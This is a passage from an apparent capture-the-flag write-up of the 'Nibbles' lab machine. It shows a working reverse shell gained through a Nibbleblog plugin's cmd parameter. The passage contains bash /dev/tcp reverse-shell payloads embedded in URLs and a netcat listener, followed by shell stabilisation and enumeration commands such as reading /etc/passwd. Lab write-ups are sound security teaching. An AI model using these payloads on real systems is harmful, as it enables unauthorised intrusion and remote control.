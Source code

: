 Now that I have **RCE** I can try to access the machine through a **Reverse Shell**. First I verify the connectivity to the target machine by sending an **ICMP** trace with `ping`, to my attacking machine and the result is successful, I manage to capture the communication with `tcpdump`. I use one of the **[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet){:target="_blank"}** methods to engage the box and I can now perform a **Console treatment**, for better mobility. With the first enumeration commands I ratify the **codename**, in addition to the **Linux** version and other basic information, I can also see the contents of the first flag.

> **Attacker Machine**:

```bash
sudo tcpdump -i tun0 icmp -n

# http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php?cmd=ping%20-c%202%2010.10.14.238

sudo nc -nlvp 443

# http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash -i >&/dev/tcp/10.10.14.238/443 0>&1
# http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash -c 'bash -i >&/dev/tcp/10.10.14.238/443 0>&1'
# :(
# http://10.129.96.84/nibbleblog/content/private/plugins/my_image/image.php?cmd=bash -c 'bash -i >%26/dev/tcp/10.10.14.238/443 0>%261'
# :)
```

> **Victime Machine**:

```bash
whoami
hostname
hostname -I

# Console Treatment
script /dev/null -c bash
# [Ctrl^z]
stty raw -echo; fg
reset xterm        
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128
uname -a
lsb_release -a
id
groups
cat /etc/passwd | grep 'sh$'
```

<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nibbles_writeup/Nibbles_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
